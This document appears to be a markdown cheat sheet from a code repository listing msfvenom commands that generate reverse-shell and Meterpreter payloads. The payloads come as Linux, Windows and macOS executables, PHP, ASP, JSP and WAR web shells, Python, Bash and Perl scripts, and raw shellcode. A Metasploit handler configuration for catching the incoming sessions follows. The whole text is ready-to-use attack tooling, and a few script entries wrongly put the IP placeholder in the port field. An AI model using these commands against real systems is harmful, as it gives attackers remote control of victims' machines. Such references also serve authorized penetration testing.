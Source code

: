 ## Binaries
#### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f elf > shell.elf
```
#### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f exe > shell.exe
```
#### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f macho > shell.macho
```
## Web Payloads
#### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f raw > shell.php
```
#### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f asp > shell.asp
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f raw > shell.jsp
```
#### WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[your_IP_address] LPORT=[your_port_to_connect] -f war > shell.war

## Script Payloads
#### python
```
msfvenom -p cmd/unix/reverse_python LHOST=[your_IP_address] LPORT=[your_IP_address] -f raw > shell.py
```
#### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=[your_IP_address] LPORT=[your_IP_address] -f raw > shell.sh
```
#### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=[your_IP_address] LPORT=[your_IP_address] -f raw > shell.pl
```
## Shellcode
#### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[your_IP_address] LPORT=[your_IP_address] -f [language]
```
#### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your_IP_address] LPORT=[your_IP_address]  -f [language]
```
#### Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=[your_IP_address] LPORT=[your_IP_address] -f [language]
```

## Handlers
```
use exploit/multi/handler
set PAYLOAD [Payload name]
set LHOST [LHOST value]
set LPORT [LPORT value]
set ExitOnSession false
exploit -j -z
```
